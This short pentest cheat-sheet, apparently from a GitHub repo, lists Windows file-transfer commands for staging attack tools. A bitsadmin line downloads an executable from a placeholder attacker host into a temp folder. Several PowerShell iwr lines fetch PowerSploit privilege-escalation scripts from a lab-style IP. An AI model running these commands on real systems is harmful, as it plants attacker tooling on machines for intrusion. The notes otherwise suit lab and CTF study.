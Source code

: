 # files transfert

## bitsadmin

bitsadmin /transfer mydownloadjob /download /priority normal http://<attackerIP>/xyz.exe C:\\Users\\%USERNAME%\\AppData\\local\\temp\\xyz.exe


## powershell

iwr http://10.10.14.2:8000/PowerSploit/Privesc/Privesc.psm1 -outfile Privesc.psm1
iwr http://10.10.14.2:8000/PowerSploit/Privesc/Get-System.ps1 -outfile Get-System.ps1
iwr http://10.10.14.2:8000/PowerSploit/Privesc/Privesc.psd1 -outfile Privesc.psd1
iwr http://10.10.14.2:8000/PowerSploit/Privesc/PowerUp.ps1 -outfile PowerUp.ps1

